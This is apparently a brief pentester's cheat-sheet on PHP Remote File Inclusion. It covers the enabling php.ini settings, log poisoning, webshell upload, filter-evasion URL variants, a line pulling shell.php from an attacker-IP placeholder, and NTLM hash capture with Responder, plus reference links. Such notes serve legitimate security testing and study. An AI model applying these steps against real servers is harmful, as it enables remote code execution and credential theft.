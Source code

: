 # Manual

## Remote File Inclusion (RFI)

### Conditions

```
$ cat /etc/php/7.4/apache2/php.ini
..[snip]..
allow_url_fopen = On
allow_url_include = On
..[snip]..
```

- Poison log files to insert payload

```
/var/log/apache/access.log
/var/log/nginx/error_log
/var/log/auth.log
```

- Send via email

- Upload a webshell in a vulnerable file upload form

### General

#### Enumeration

```
https://google.com
HTTPS://google.com
httPs://google.com
```

#### Exploit

Note: Look at `phpinfo()` for `disabled_functions`. If there are then check **hacktricks** in the reference links below.

```
http://<attacker_IP>/shell.php
```

### Windows

#### Exploit

- Grab NTLM hashes with Responder

## References

- [Hacking Articles: Comprehensive Guide on Local File Inclusion (LFI)](https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/)

- [Hacking Articles: RCE with LFI and SSH Log Poisoning](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/)

- [Local File Inclusion Code Execution](https://resources.infosecinstitute.com/topic/local-file-inclusion-code-execution/)

- [Hacktricks: PHP - Useful Functions & disable_functions/open_basedir bypass](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass)

- [File Inclusion (Local/Remote)](https://notes.defendergb.org/web-sec/vuln/lfi-rfi)

- [Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)